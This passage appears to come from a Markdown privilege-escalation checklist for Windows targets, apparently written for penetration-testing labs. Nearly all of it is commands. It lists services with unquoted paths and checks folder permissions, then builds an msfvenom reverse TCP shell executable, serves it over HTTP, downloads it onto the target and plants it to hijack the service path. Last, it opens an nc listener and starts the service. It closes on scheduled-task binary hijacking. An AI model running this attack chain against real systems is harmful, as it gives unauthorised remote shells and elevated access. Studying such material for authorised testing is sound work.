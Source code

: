 - [ ] Check users on the Target Machine
```
net user
```

## Unquoted Service Path
- [ ] Show list of services with spaces and missing quotes in the binary path on the Target Machine
```powershell
Get-WmiObject Win32_Service | Where-Object {$_.PathName -notlike "C:\Windows\*"} | Where-Object {$_.PathName -notlike "*""*"} | Select-Object Name, PathName
```

- [ ] Display discretionary access control list on the directory on the Target Machine
```
icacls C:\somefolder\
```

- [ ] Create a Windows executable with a non-staged TCP reverse shell payload on your Kali Machine
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.xxx.xxx LPORT=443 -f exe -o renamethis.exe
```

- [ ] Serve the binary on your Kali Machine
```
python3 -m http.server 80
```

- [ ] Download the payload binary on the Target Machine
```
powershell iwr -uri http://192.168.xxx.xxx:80/renamethis.exe -Outfile renamethis.exe
```

- [ ] Copy to an appropriate directory to hijack the unquoted service path on the Target Machine
```
cp renamethis.exe C:\somefolder\renamethis.exe
```

- [ ] Start `nc` listener on your Kali Machine
```
nc -nlvp 443
```

- [ ] Start service on the Target Machine
```
sc.exe start rektService
```

## Scheduled Tasks

- [ ] Display a list of all scheduled tasks on the Target Machine
```powershell
schtasks /query /fo LIST /v
```
- Look at "Next Run Time", "Task To Run" and "Run As User"
### Binary Hijacking
- [ ] Show permissions of file on the Target Machine
```powershell
icacls C:\schedule.ps1
```
